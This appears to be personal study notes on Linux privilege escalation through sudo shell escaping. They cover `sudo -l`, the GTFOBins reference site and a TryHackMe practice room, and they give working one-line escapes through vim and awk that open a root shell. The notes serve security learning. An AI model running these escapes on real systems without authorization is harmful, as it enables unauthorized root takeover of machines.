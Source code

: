 When we have the possibility to run commands as `sudo` on the system it could be possible to pop an interactive shell as `root` leveraging on the command itself. This is called Sudo Shell Escaping.


**==In order to see which commands we can run as `sudo` we can run this command:==**
```bash
sudo -l
```
- ![[Pasted image 20250116152659.png]]

*For example in this case we can run as `sudo` the command `vim`*


# GTFOBins

This is an important tool used to perform this privilege escalation technique
-  [https://gtfobins.github.io/](https://gtfobins.github.io/)

<mark style="background: #FF5582A6;">This is the most important one!</mark>

In this case we search for the command `vim` under the `sudo` section:
- ![[Pasted image 20250116152850.png]]
- ![[Pasted image 20250116152908.png]]

So we just need to run:
```bash
sudo vim -c ':!/bin/sh'
```
- ![[Pasted image 20250116152945.png]]
- and we got the root shell



Also with `awk` is possible in this case:
```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```
- ![[Pasted image 20250116153144.png]]
- ![[Pasted image 20250116153208.png]]



# TryHackMe resource for linux privesc

This resource is very useful to test for privilege escalation in different ways:
- [https://tryhackme.com/room/privescplayground](https://tryhackme.com/room/privescplayground)
